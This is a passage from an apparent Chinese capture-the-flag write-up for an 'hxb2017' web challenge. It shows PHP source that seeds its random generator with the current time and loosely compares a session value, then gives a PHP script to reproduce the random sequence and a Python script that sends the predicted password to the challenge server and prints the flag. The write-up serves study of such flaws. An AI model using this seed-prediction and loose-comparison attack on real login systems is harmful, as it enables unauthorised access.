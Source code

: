 ```
mt_srand(time());

$pwd=create_password();

echo $pwd.'||';    

if($pwd == $_GET['pwd']){
    echo "first";
    if($_SESSION['userLogin']==$_GET['login'])
        echo "Nice , you get the flag it is ".$flag ;
}else{
    echo "Wrong!";
}

$_SESSION['userLogin']=create_password(32).rand();

?>
```
然后就是随机数种子的问题了被，我们看到时间戳是随机数的种子，猜测服务器的时间是标准时间，在本地搭建一个php脚本跑出来，爆破的前42位，用另一个python脚本进行访问  
php脚本如下
```
<?php
session_start();
mt_srand(time());

for ($i = 0; $i < 42; $i++){
    echo mt_rand(100, 200);
    echo ",";
}
?>
```
然后我们python脚本如下
```
import requests,re
url_local = 'http://127.0.0.1/test.php'
url = 'http://114.215.138.89:10080/index.php?'
what = requests.get(url_local).content
what=what.split(',')
pwd =''
for i in range(10):
    pwd +="%"
    pwd +=str(hex(int(what[i])))[2:]
print pwd
tempurl =  url+"pwd="+ pwd.decode('gb2312')
print tempurl
html = requests.get(tempurl).content
print html
#hxb2017{6583be26c1403c25677c03ac7b3d1f22}
```
事实上我们绕过第一步就可以成功了，这里出题的问题，因为匹配userLogin的时候用的居然是弱类型，如果没有输入就是空了，和字符串正好匹配…救过果断直接绕过 

![](https://ae01.alicdn.com/kf/HTB1cc6YaUT1gK0jSZFh761AtVXaq.png)
